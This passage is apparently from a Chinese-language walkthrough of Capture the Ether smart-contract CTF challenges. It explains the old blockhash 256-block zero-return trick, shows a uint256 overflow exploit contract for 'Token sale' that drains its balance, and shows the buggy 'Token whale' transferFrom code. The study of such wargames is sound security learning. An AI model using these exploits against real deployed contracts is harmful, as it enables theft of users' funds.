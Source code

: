 ###### [Predict the block hash](https://capturetheether.com/challenges/lotteries/predict-the-block-hash/)

这次合约中我没有看到可以直接攻击的方向，也看不到一些直接利用的trick。注意到answer产生的方式和之前略有不同，只取了blockhash：

```solidity
bytes32 answer = block.blockhash(settlementBlockNumber);
```

因此去看看block.blockhash上有没有什么攻击点。通过solidity的官方文档可以查阅到这是旧版的`block.blockhash`，只能查到当前块往前256个块的blockhash，超过会产生错误，返回`0x00`。因此只需要把`0x00`作为答案锁在合约里，耐心等待256个块的时间(一个小时左右)过去,在调用`settle()`即可完成挑战。

tips：新版的blockhash没有这个问题，别用这个旧函数。

##### [Math](https://capturetheether.com/challenges/math/)

###### [Token sale](https://capturetheether.com/challenges/math/token-sale/)

这个代币合约的buy()函数的检查存在上溢漏洞：

```solidity
    function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
    }
```

因此我将numTokens的值设置为`(type(uint256).max / (1 ether)) + 1`,并以此计算上溢应该发送的msg.value(不超过1ether),调用buy()函数即可获得大额的该token。然后调用sell()函数卖出1个该token换取1ether，即可使合约的balance小于1ether，完成该挑战。

```solidity
    function attack() external payable {
        uint256 number = (type(uint256).max / (1 ether)) + 1;
        uint256 sendValue = number * (1 ether);
        challenge.buy{value:sendValue}(number);
        challenge.sell(1);
        payable(msg.sender).transfer(address(this).balance);
    }
```

###### [Token whale](https://capturetheether.com/challenges/math/token-whale/)

合约中的`transferFrom()`函数有一个很明显的错误：

```solidity
    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }
        function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }
```
